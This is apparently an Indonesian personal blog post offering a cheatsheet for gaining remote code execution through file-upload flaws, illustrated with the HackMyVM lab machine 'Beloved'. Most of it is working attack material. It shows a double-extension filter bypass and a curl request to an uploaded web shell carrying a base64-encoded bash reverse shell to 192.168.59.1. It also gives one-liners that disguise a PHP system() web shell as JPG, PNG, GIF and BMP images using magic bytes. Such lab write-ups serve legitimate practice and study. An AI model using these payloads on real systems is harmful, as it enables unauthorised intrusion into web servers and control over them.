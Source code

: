 ```yaml
---
layout: post
title: "Note: RCE cheatsheet"
date: 2022-12-09
---
```


Karena saya rada kesusahan untuk mengumpulkan resource jika nanti googling-googling. Dan note yang saya pakai juga tidak lengkap referensinya, maka saya kumpulkan di sini. 

Jika ada malicious upload, maka yang seharusnya dilakukan adalah memanipulasi file extension atau memanipulasi isi dari file tersebut.

Bisa juga, jika trik ini tidak berfungsi dengan benar, maka bisa dinjeksi dengan membuat ekstensi menjadi double format.
```sh
~$ mv shell.jpg shell.jpg.php
```
lalu coba aktifkan dengan curl
```sh
~$ curl -s "http://beloved/wp-content/uploads/2022/12/shell.jpg-1670590514.8364.php?cmd=echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTkuMS8xMjM0NSAwPiYxCg%3D%3D+%7C+base64+-d+%7C+bash"
```
Dan, tidak perlu repot repot untuk menggunakan <https://revshell.com> yang dibuat oleh 0day. Cukup buat string menjadi URL-encoded, dan eksekusi.
```sh
~$ python -c 'import urllib.parse; string = "(isi string di sini)"; print(urllib.parse.quote_plus(string))'
```
Dengan format seperti ini, btw ini format favorit saya.
```sh
~$ echo (base64) | base64 -d | bash  
```

## Kasus
ada kasus menarik dari mesin [Beloved: HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Beloved), exploit yang saya jalankan dengan request `image` tidak berfungsi, jadi saya menggunakan trik manual yaitu mengganti format menjadi `.jpg.php` untuk membypass.

![image](https://i.postimg.cc/63Vx9Pzf/image.png)

Ketika saya eksekusi jadi seperti ini
```
╭─ via [machines/beloved]
╰─ curl -s http://beloved/wp-content/uploads/2022/12/shell.jpg-1670590514.8364.php\?cmd\=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Sebelum masuk ke cheatsheet, jika anda penikmat POST Request bisa mengganti `$_GET` menjadi `$_POST`. LOL semua orang juga sudah tau ini.

## JPG
```shell
echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > shell.jpg
```

## PNG
```shell
echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > shell.png
```

## GIF
```shell
echo -n -e '\x47\x49\x46\x38<?php system($_GET["cmd"]);?>.' > shell.gif
```
## BMP
```shell
echo -n -e '\x42\x4D<?php system($_GET["cmd"]);?>.' > shell.bmp
```

Happy hacking!
